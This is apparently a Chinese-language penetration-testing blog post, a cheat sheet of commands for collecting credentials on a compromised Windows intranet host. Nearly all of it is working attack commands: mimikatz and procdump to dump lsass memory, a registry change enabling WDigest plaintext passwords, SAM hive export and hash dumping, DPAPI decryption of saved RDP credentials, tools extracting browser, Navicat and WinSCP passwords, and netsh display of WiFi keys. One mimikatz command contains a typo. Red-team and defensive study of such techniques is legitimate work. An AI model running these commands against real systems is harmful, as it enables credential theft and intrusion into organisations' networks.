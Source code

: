 ```yaml
---
title: 内网用户凭证收集
date: 2023-12-31 02:13:55
tags: 渗透测试
mathjax: true
---
```


# 内网用户凭证收集

## 获取域内单机密码和哈希值

### 在线读取lsass进程内存

上传mimikatz到目标主机。

``` bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpassowrds full " exit
```

### 离线读取lsass内存文件

上传procdump，将lsass.exe的内存导出为lsass.dmp映像：

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

mimikatz分析：

```bash
mimikatz.exe "sekurlsa::minidump C:\Users\S\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" exit
```

Winserver2012及以上开启WDigest功能，需要用户注销或重新登录才能获取密码明文。

```bash
#开启
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#关闭
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

### 在线读本地SAM

```bash
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```

cmd5解密即可。

### 离线注册表导出SAM

```bash
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit
```

cmd5解密即可。

## 获取常见应用软件凭据

### RDP

```bash
cmdkey /list
dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*
mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\F3D52AEECC8AEE52FC2A608E9C17229C" exit
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit
```

### 浏览器

```bash
hack-browser-data.exe
```

这工具一堆bug，只能说一言难尽，

### Navicat

```bash
SharpDecryptPwd.exe Navicat
```

### Winscp

```bash
SharpDecryptPwd.exe WinSCP
```

### WiFi

Win

```bash
netsh wlan show profiles
netsh wlan show profile 配置文件名 key=clear
```

